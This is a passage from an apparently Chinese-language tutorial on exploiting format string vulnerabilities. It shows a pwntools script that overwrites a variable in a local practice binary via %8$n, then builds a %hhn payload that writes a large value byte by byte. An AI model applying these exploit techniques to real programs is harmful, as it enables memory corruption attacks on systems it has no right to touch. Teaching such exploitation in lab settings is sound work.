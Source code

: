 我们把前面的字符串拆分成两部分，每个部分四个字节，因为变量是从第六个参数开始的，所以aa%k是第6个、$naa是第7个、p32(a_addr)是第8个，所以k需要改成8，这样%n就会将“aa”这两个字符的字符数2写在第8个参数，即变量a的地址中：

```plain
’aa%8' + '$naa' +p32(a_addr)
```

那么这样一来偏移找到了，剩下的就是变量a的地址了，因为a已经进行过初始化了，所以使用ida可以在.data段找到：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598065504763-ed6d3a58-354b-4f80-aaad-950ffe322e6b.png)

这样一来a_addr = 0x0804A024

exp如下：

```python
from pwn import *
sh = process('./overwrite')
a_addr = 0x0804A024
payload = 'aa%8$naa' + p32(a_addr)
sh.sendline(payload)
print sh.recv()
sh.interactive()
```

执行结果如下，可以看到输出字符串“modified a for a small number.”

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598065504793-d079be41-3bcf-497c-9211-2901de6ef8de.png)

### 覆盖大数字
到这里为止，应该对%k$n有一定的了解了，还是那个原则，%k$n前面有多少个字节，那么就会向第k个参数地址中写多少。那么回来，覆盖大数字能有多大呢？拿b = 0x12345678举例，换成十进制的话就是305419896个字节，这就已经非常大了，我们没法构建一个超级长的payload的插入栈中，因为栈的长度可能都没有这么长😁

那么我们改变一下思路，我们一定要一次性写入0x12345678吗？存放变量b的地址空间有4个字节：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598065504798-b5d24b6d-3c10-4c59-85af-6e145ce6e271.png)

因为在x86、x64中时按照小端序的形式存储的，所以以b_addr作为基地址开始，依次从右向左在每个字节中写入内容。也就是说我们不必须一次性将变量b的所有位置填满，可以一个字节一个字节的填充。这样填充的方法就用到了格式化字符串里面的两个标志位了：

> h：对于整数类型，printf 期待一个从 short 提升的 int 尺寸的整型参数
>
> hh：对于整型类型，printf 期待一个从 char 提升的 int 尺寸的整形参数
>

定义很复杂，简单点说如果我们使用了h标志位，那么就会向变量b中一次性写两个字节，写两次填满。使用hh标志位会向变量b中一次性写一个字节，写四次填满。那么我们去想，如果将b_addr放在格式化字符串的第六个参数位置、b_addr + 1放在第7个参数位置、b_addr + 2放在第8个参数位置、b_addr + 3放在第9个参数位置。再通过%6$hhn、%7$hhn、%8$hhn、%9$hhn将0x78、0x56、0x34、0x12写进去是不是就可以了！

```python
payload = p32(b_addr)+p32(b_addr+1)+p32(b_addr+2)+p32(b_addr+3)
payload += '%104x'+'%6$hhn'+'%222x'+'%7$hhn'+'%222x'+'%8$hhn'+'%222x'+'%9$hhn'
```

+ 前面的四个p32每个占4字节，一共16个字节，%104x占104个字节，所以104 + 16 = 120 =0x78，所以%6$hhn会将0x78写到第6个参数，即p32(b_addr)的位置
+ %222x占222个字节，再加上前面的字节数：120 + 222 = 342 = 0x156，因为hh是单字，所以只取后面的0x56，所以%7$hhn会将0x56写到第7个参数，即p32(b_addr + 1)的位置
+ %222x占222个字节，再加上前面的字节数：342 + 222 = 564 = 0x234，因为hh是单字，所以只取后面的0x34，所以%8$hhn会将0x34写到第8个参数，即p32(b_addr + 2)的位置
+ %222x占222个字节，再加上前面的字节数：564 + 222 = 0x312，因为hh是单字，所以只取后面的0x12，所以%9$hhn会将0x12写到第9个参数，即p32(b_addr + 3)的位置
